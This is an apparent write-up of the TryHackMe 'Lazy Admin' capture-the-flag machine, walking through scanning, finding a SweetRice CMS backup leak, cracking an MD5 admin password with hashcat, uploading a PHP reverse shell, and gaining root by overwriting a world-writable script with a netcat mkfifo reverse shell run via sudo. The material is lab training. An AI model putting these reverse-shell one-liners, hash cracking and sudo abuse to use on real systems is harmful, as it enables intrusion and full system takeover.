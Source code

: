 ```yaml
---
title: Lazy Admin
date: 2022-05-27 17:00:00 +500
categories: [thm, easy-machines]
tags: []    # TAG names should always be lowercase
---
```



### What is the user flag?

Let's run a quick Nmap scan
```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.74.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

going to the page is the default Apache webpage, nothing much to see, so let's run a gobuster scan to see if we find any hidden directory.

Im going to use the '-x' flag which adds the extension to the words in the wordlist, but doesn't replace the original words without the extension, so naturally it makes the scan slower since it got more words to try, I usually get lucky with only php but if not, you can try with .txt, .pdf, etc. or even .html .htm since some wordlists don't have these extensions by default.

```terminal
gobuster dir -u http://10.10.74.238/ -w /usr/share/dirb/wordlists/common.txt -x .php
```

```
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.74.238/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

we found a directory '/content', heading over the page we see that is a page after the installation of SweetRice which looks like a CMS like WordPress.

I'll do another gobuster scan in the background while I search for exploits for this software.

with searchsploit we can search exploits from the terminal, exploits that we have on our computer.
```terminal
searchsploit sweetrice
```

and there are a few
```
SweetRice 0.5.3 - Remote File Inclusion                         | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                      | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                       | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                         | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                             | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                    | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Executi | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload           | php/webapps/14184.txt
```

but we don't know what version is it, so we'd be just trying and see if we're lucky. Im going to try enum the webpage if I found something.

going through the source code, it looks like I found a version, in /content/js/SweetRice.js there is this comment at the start of the code:
```
/**
 * SweetRice javascript function.
 *
 * @package SweetRice
 * @Dashboard core
 * @since 0.5.4
 */
<!--
```

if I'm not mistaken and that's the version, it's a pretty old one.
the gobuster scan also finished

```
/as                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.74.238/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.74.238/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.74.238/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/js/]
```

*as is a login page

we have the folder attachment that may be the folder where files are uploaded, and we have the "SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload " exploit so I think that's our chance.

after taking a more close look, this doesn't work for us because it uses a plugin 'FCKeditor' which it's not installed here, we can check it by going to 'http://10.10.74.238/content/_plugin/'.

then I tried the two exploits above, which didn't work for me also, then I tried the 'Backup Disclosure' which says that there is a directory with a MySQL backup, I downloaded looking for credentials or something, and I think I found a user and a password:

'''
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
'''

looks like manager is the admin and his password is that hash, so I use hash-identifier to see what kind of hash is, it looks like is MD5, now with this let's use hashcat to crack it up.

with the normal mode, it did not cracked it, so I'll use the rockyou wordlists.

* -m 0 is the mode for MD5 raw
* -a 0 is to use a wordlist

```terminal
hashcat -m 0 -a 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

and it does crack it to 'Password123', now with these credentials we can access the login page under /content/as. 

my initial thought in the admin panel was to upload a revershell, to somewhere or execute it somehow. I first started creating a post and putting the raw code from a php reverse shell and then executing it, but it didn't work (also you have to mark the website status as running to see the posts you create), then I tried to upload the shell to the section that said upload files a bit skeptical because I thought of this only going to display the file to download it, but it actually runs it when you click it, so I got a shell!

the PHP shell: https://raw.githubusercontent.com/jivoi/pentest/master/shell/rshell.php
(change the IP to yours and the port you'd like)
(remember to have a listener with the reverse shell file port when executing the shell)

under the itguy's home directory is our first flag

> 

### What is the root flag?

Let's do some enumeration on the machine, we have mysql_login.txt with some credentials

```
rice:randompass
```

we have permission to execute a file in itguy's home directory

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

backup.pl
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

let's see what's copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f
```

it's a bash reverse shell, let's check if we have permission to write on it

```terminal
ls -la /etc/copy.sh
```

and we have '-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh'
in the third group of permissions 'rwx' all other users can write on it.

so let's change the IP for ours, but nano isn't working, so i'll do it with echo

```terminal
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f" > /etc/copy.sh
```

and now we execute it with sudo, so we'll have a root shell (remember to have the listener ready with the correct port, this case 5554)

in your local machine:
```terminal
nc -lvnp 5554
```

in the victim's machine:
```terminal
sudo /usr/bin/perl /home/itguy/backup.pl
```

And we got ourselves a root shell! now just go and cat the flag under /root

> 
